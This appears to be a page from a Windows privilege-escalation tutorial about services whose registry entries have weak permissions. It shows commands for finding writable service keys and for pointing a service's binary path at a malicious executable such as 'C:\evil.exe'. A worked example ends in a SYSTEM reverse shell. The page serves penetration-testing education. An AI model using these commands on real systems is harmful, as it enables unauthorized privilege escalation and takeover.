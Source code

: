 # Registry Permissions

System services are typically executed with high integrity under the SYSTEM account. Additionally, they are often installed by third-party applications that may not adequately consider security measures, leaving potential vulnerabilities that attackers can exploit.

In some cases, services fail to properly restrict permissions on configuration registry entries created during installation. If an attacker is able to manipulate these registry entries, they could change the reference to the executable binary, allowing them to run malicious code and potentially escalate privileges.

## Service Registry

The following PowerShell script automatically checks if the user has permission to modify service registry entries.

> [!NOTE]
> This script requires the auxiliary function [[ModPathCheck]].

```powershell
ls HKLM:\SYSTEM\CurrentControlSet\Services\ | ForEach-Object { if(ModifiablePath
$_.PSPath){$_.PSPath}}
```

It is also possible to manually check using CMD, but the use of Microsoft Sysinternals tools is necessary to check permissions on the registry entries. You can find the Sysinternals suite [here](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite/).

```batch
:: List all services
wmic service list brief

:: Check registry permissions
accesschk.exe /accepteula -kdqv "HKLM\SYSTEM\CurrentControlSet\Services\[Service_Name]"
```

### Attack

If the registry path can be modified, the attacker can change the path of the binary to be executed, causing the service to start with malicious code.

```batch
:: Change the path to a malicious binary
sc config [Service_Name] binpath= "cmd \c C:\evil.exe"

:: Restart the service
net stop [Service_Name] && net start [Service_Name]
```

## Example

**First, copy and paste to load the auxiliary function.**

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/regPerm_1.png)

Next, use the small script to list all service registry entries and check if the current user can modify them.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/regPerm_2.png)

This shows a service named **regsvc** with weak permissions on the registry. We can then inspect this registry entry to review its configuration.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/regPerm_3.png)

Next, we will create a reverse shell and manipulate the registry to point to our reverse shell executable.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/regPerm_4.png)

Finally, we manually start the service using the following command.

```batch
net start regsvc
```

Within seconds, we establish a reverse shell connection running as SYSTEM.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/regPerm_5.png)
